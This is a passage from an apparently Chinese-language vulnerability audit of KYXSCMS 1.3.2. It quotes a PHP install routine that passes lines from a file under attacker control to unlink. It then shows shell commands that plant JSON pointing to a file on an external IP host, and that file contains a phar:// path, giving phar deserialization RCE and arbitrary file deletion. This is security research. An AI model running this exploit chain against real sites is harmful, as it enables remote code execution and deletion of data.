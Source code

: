

## phar rce 5

之前感觉这个CMS没有phar，还是我看的太不仔细了，真的仔细的审计就会发现还有phar。

接着phar rce 4的最后，继续往下看：

```php
    private function install_file($list_array){
        foreach ($list_array as $value) {
            if($value['suffix']==='del' || $value['suffix']==='sql'){
                $upCode=file_get_contents($value['stored_file_name']);
                $upCode = str_replace("\r", "\n", $upCode);
                $filePath=explode("\n",$upCode);
                foreach ($filePath as $v){
                    $v = trim($v);
                    if(empty($v)) continue;
                    if($value['suffix']==='del'){
                        @unlink($v);
```

再往下看，可以发现下面还有一个`unlink`函数，这个函数给我的反应是：又多了一个phar rce和一个任意文件删除。

仔细看一下，`$upCode`是我们可控的，然后再进行一些处理，进入foreach，然后直接`unlink`，非常简单的利用。

```shell
root@fab5a704a013:/var/www/html/upgrade/updata# echo '{"0":{"suffix":"del","stored_file_name":"http://118.31.168.198:39601/2.txt"}}' > index.php
root@fab5a704a013:/var/www/html/upgrade/updata# cd /var/www/html
root@fab5a704a013:/var/www/html# echo "phar://./uploads/config/20210602/20a9e2a63d2a1e5d42094af2ec61e42e.png" > 2.txt
```



![pic19](KYXSCMS1.3.2审计与测试.assets/pic19.png)



## 任意文件删除2
